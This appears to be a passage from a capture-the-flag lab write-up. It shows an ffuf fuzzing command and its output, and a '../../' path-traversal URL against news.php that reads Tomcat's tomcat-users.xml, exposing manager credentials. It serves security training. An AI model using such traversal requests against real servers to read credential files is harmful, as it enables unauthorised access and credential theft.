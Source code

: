 ```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/FUZZ/tomcat-users.xml' -fs 0
                                                          
        /'___\  /'___\           /'___\                
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                              
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                             
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                 
         \ \_\   \ \_\  \ \____/  \ \_\                                                                              
          \/_/    \/_/   \/___/    \/_/                                                                              
                                                                                                                     
       v1.0.2                                                                                                        
________________________________________________
                                                                                                                     
 :: Method           : GET                                                                                           
 :: URL              : http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/FUZZ/tomcat-users.xml
 :: Follow redirects : false                                                                                         
 :: Calibration      : false                                                                                         
 :: Timeout          : 10                                 
 :: Threads          : 40                                 
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 0                                                                              
________________________________________________
                                                          
etc                     [Status: 200, Size: 2325, Words: 361, Lines: 48]                                             
:: Progress: [4652/4652] :: Job [1/1] :: 775 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

It looks like /usr/share/tomcat9/etc/tomcat-users.xml exists, so we'll visit this in our browser!

view-source:http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

```
...
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
...
```

Now we have a username and password combination for the tomcat manager instance!

Visiting http://megahosting.htb:8080/manager/html and using the credentials gives us a "Permission denied" error since we're not on the same machine, but visiting http://megahosting.htb:8080/host-manager/html lets us connect.
